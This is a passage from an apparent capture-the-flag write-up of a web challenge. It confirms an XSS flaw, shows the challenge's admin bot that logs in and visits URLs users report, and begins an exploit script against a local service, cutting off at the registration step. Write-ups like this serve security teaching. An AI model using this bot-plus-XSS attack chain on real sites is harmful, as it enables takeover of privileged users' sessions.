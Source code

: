 An alert box appears, confirming the XSS vulnerability. Next, we move on to the report functionality.

The report feature takes a URL and simply visits it.

```python
def startChromiumBot(url):
    chrome_options = Options()
    chrome_options.binary_location = "/usr/bin/chromium-browser"
    chrome_options.add_argument("--headless")
    chrome_options.add_argument("--no-sandbox")
    chrome_options.add_argument("--disable-dev-shm-usage")

    chrome_service = Service("/usr/bin/chromedriver")
    driver = webdriver.Chrome(service=chrome_service, options=chrome_options)

    try:
        driver.get('http://127.0.0.1:1337/login')

        WebDriverWait(driver, 15).until(
            EC.presence_of_element_located((By.ID, "loginBtn"))
        )

        username = "contract_manager"
        password = get_contract_manager_password()

        input1 = driver.find_element(By.XPATH, '/html/body/code/section/div/div/div/form/div[1]/input')
        input2 = driver.find_element(By.XPATH, '/html/body/code/section/div/div/div/form/div[2]/input')

        input1.send_keys(username)
        input2.send_keys(password)

        submit_button = driver.find_element(By.ID, "loginBtn")
        driver.execute_script("arguments[0].click();", submit_button)

        driver.get(url)
    finally:
        driver.quit()
```

Let's create an exploit script to automate this process as much as possible:

```python
import requests
from bs4 import BeautifulSoup
import random
import base64

def generate_random_4digit():
    return f"{random.randint(1000, 9999)}"

username = generate_random_4digit()
password = generate_random_4digit()

base_url = "http://127.0.0.1:1337"

session = requests.Session()

def getAuthenToken(html):
    soup = BeautifulSoup(html, "html.parser")
    return soup.find("input", {"name": "authenticity_token"})["value"]

def register():
    register_page = session.get(f"{base_url}/register")
```